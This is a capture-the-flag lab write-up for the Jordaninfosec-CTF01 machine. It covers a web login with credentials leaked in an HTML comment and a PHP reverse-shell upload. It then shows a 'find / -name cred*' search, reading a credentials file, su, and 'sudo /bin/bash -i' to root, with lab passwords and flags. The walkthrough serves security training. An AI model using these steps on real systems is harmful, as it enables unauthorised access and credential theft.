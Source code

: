 ```yaml
---
title: Jordan Infosec CTF01
categories: [Proving Grounds, Play]
tags: [File Upload, PrivEsc]
image:
  path: https://miro.medium.com/v2/resize:fit:1200/1*WwEcNu2bHpKt_WpejYTupQ.png
  alt:  Jordaninfosec-CTF01 Machine 🖥️
---
```



### Let’s check the IP address of the victim machine →

![Untitled](/Vulnhub-Files/img/Jordaninfosec-CTF01/Untitled.png)

```bash
IP : 10.0.2.46 
```
{: .nolineno}

## Web Enumeration ⤵️

![Untitled](/Vulnhub-Files/img/Jordaninfosec-CTF01/Untitled%201.png)

![Untitled](/Vulnhub-Files/img/Jordaninfosec-CTF01/Untitled%202.png)

hint.txt —>

![Untitled](/Vulnhub-Files/img/Jordaninfosec-CTF01/Untitled%203.png)

![Untitled](/Vulnhub-Files/img/Jordaninfosec-CTF01/Untitled%204.png)

```bash
<!--	username : admin
	password : 3v1l_H@ck3r
	The 2nd flag is : {7412574125871236547895214}
-->
```
{: .nolineno}

Lets login into this site —> 

![Untitled](/Vulnhub-Files/img/Jordaninfosec-CTF01/Untitled%205.png)

and now upload the reverse shell file here —>

![Untitled](/Vulnhub-Files/img/Jordaninfosec-CTF01/Untitled%206.png)

As ⬆️ I got success in uploading the files so lets load that shell file ➡️

```bash
URL --> http://10.0.2.46/uploaded_files/shell.php
```
{: .nolineno}

In response to that I got this —> 

![Untitled](/Vulnhub-Files/img/Jordaninfosec-CTF01/Untitled%207.png)

Actually, this statement of hidden file was a little misleading, because the file we are looking for was not hidden… I tried to search for user, pass, etc… files, but unfortunately, none of them worked. Lastly, I tried `find / -name cred*`, which revealed the /etc/mysql/conf.d/credentials.txt file.

```bash
www-data@Jordaninfosec-CTF01:/$ find / -name cred* 2>/dev/null
/sys/kernel/slab/cred_jar
/usr/share/man/man7/credentials.7.gz
/usr/share/doc/git/contrib/credential
/usr/src/linux-headers-4.4.0-31/include/linux/cred.h
/usr/src/linux-headers-4.4.0-210/include/linux/cred.h
/usr/src/linux-headers-4.4.0-72/include/linux/cred.h
/etc/mysql/conf.d/credentials.txt
www-data@Jordaninfosec-CTF01:/$
www-data@Jordaninfosec-CTF01:/$ cat /etc/mysql/conf.d/credentials.txt
cat /etc/mysql/conf.d/credentials.txt
The 4th flag is : {7845658974123568974185412}

username : technawi
password : 3vilH@ksor
www-data@Jordaninfosec-CTF01:/$
```
{: .nolineno}

Now thank god I got the credentials I was pissed so bad —>

```bash
www-data@Jordaninfosec-CTF01:/$ su technawi
su technawi
Password: 3vilH@ksor

technawi@Jordaninfosec-CTF01:/$ whoami
whoami
technawi
technawi@Jordaninfosec-CTF01:/$
```
{: .nolineno}

Now lets see how technawi can lead me to root —>

```bash
technawi@Jordaninfosec-CTF01:/$ sudo -l
sudo -l
[sudo] password for technawi: 3vilH@ksor

Matching Defaults entries for technawi on Jordaninfosec-CTF01:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User technawi may run the following commands on Jordaninfosec-CTF01:
    (ALL : ALL) ALL
technawi@Jordaninfosec-CTF01:/$
```
{: .nolineno}

Now its root time ➡️

```bash
technawi@Jordaninfosec-CTF01:/$ sudo /bin/bash -i
sudo /bin/bash -i
root@Jordaninfosec-CTF01:/# whoami
whoami
root
root@Jordaninfosec-CTF01:/#
```
{: .nolineno}

Let’s find out the last flag ➡️

```bash
root@Jordaninfosec-CTF01:/var/www/html# cat flag.txt
cat flag.txt
The 5th flag is : {5473215946785213456975249}

Good job :)

You find 5 flags and got their points and finish the first scenario....
root@Jordaninfosec-CTF01:/var/www/html#
```
{: .nolineno}

> If you have any questions or suggestions, please leave a comment below.
Thank You ! 
{: .prompt-tip }